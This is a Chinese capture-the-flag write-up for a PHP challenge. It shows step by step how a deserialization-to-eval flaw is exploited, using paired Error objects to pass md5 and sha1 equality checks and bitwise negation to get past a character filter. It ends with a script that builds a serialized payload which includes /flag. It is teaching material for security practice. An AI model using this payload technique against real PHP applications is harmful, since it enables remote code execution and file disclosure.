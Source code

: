 ![[Pasted image 20230217114125.png|500]]

```php
<?php
error_reporting(0);
class SYCLOVER {
    public $syc;
    public $lover;

    public function __wakeup(){
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
           if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
               eval($this->syc);
           } else {
               die("Try Hard !!");
           }
           
        }
    }
}

if (isset($_GET['great'])){
    unserialize($_GET['great']);
} else {
    highlight_file(__FILE__);
}

?>
```

好消息——是反序列化
坏消息——考的不是反序列化

需要绕过`md5`和`sha1`的比较，第一个想到的是数组绕过，但是`syc`需要作为`eval`的参数，因此需要不能为数组

这里利用`Error`类绕过，其通过`__toString`魔术方法定义了隐式转换为字符串的方法，通过创建两个向字符串隐式转换结果相同的`Error`对象，即可令`md5`和`sha1`的结果相同，同时改变不影响转换结果的`Error`的某个属性，即可在此基础上使两个`Error`对象的弱相等比较结果为假

```php
<?php
$a = new Error("php_wa_sai_kou!", 233);
echo $a;
```

```
Error: php_wa_sai_kou! in /home/chen/proj/php/demo/index.php:2
Stack trace:
#0 {main}
```

创建一个简单的`Error`对象，观察到影响字符串表示的只有创建`Error`对象时的当前行号以及传递的错误消息

因此将两个创建`Error`对象的语句放在同一行，令错误消息相同，但错误码不同即可绕过棘手的相等性判断

```php
<?php
$a = new Error("php_wa_sai_kou!", 233); $b = new Error("php_wa_sai_kou!");
echo $a != $b && md5($a) === md5($b) && sha1($a) === sha1($b);
```

```
1
```

由于`Error`对象的字符串表示包含了杂七杂八的信息，因此简单地将要执行的代码作为错误消息构造出来的`Error`对象转换为字符串后并不能被`eval`正确执行

考虑到`eval`的实现利用了字符串拼接，可以通过`php`标签将各个部分隔离起来

```php
<?php
$message = "?><?php echo 'php_wa_sai_kou!';?>";
$err = new Error($message);
eval($err);
```

```
php_wa_sai_kou! in /home/chen/proj/php/demo/index.php:3
Stack trace:
#0 {main}
```

```php
if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)) {...}
```

这里过滤了双引号和左右括号，因此使用`include`关键字包含`/flag`，同时利用取反绕过

```php
<?php
$message = "?><?php include ~" . ~"/flag" . "?>";
$err = new Error($message);
eval($err);
```

![[Pasted image 20230217143303.png|800]]

最后序列化即可

```php
<?php

class SYCLOVER
{
    public $syc;
    public $lover;
}

$message = "?><?= include ~" . ~"/flag" . "?>";
$err1 = new Error($message, 1); $err2 = new Error($message, 2);

$payload = new SYCLOVER();
$payload->syc = $err1;
$payload->lover = $err2;

echo urlencode(serialize($payload));
```

![[Pasted image 20230217150313.png|800]]

#Web #PHP #serialization #bypass #error